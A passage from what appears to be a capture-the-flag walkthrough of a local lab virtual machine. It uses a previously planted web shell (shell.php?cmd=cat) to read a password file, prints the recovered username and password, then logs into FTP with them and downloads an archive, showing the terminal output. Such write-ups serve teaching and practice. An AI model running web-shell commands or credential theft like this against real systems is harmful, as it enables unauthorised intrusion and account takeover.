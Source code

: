 Next, we run:
[https://192.168.56.101/forum/templates\_c/shell.php?cmd=cat](https://192.168.56.101/forum/templates_c/shell.php?cmd=cat) /home/LOOKATME/password

And we get:

```
lmezard:G!@M6f4Eatau{sF"
```

---

# Part 5: FTP

The user and password we just found allow us to access the FTP service.

We retrieve all the files using:

```bash
┌──(jdamoise㉿vbox)-[~]
└─$ ftp lmezard@192.168.56.101
Connected to 192.168.56.101.
220 Welcome on this server
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||7707|).
150 Here comes the directory listing.
-rwxr-x---    1 1001     1001           96 Oct 15  2015 README
-rwxr-x---    1 1001     1001       808960 Oct 08  2015 fun
226 Directory send OK.
ftp> mget *
mget README [anpqy?]? a
Prompting off for duration of mget.
229 Entering Extended Passive Mode (|||55507|).
150 Opening BINARY mode data connection for README (96 bytes).
100% |*****************************************************************************************|    96      131.30 KiB/s    00:00 ETA
226 Transfer complete.
96 bytes received in 00:00 (39.02 KiB/s)
229 Entering Extended Passive Mode (|||18340|).
150 Opening BINARY mode data connection for fun (808960 bytes).
100% |*****************************************************************************************|   790 KiB   26.85 MiB/s    00:00 ETA
226 Transfer complete.
808960 bytes received in 00:00 (26.14 MiB/s)
```

We then run `file` on both downloaded objects:

```bash
┌──(jdamoise㉿vbox)-[~]
└─$ file fun README           
fun:    POSIX tar archive (GNU)
README: ASCII text
```
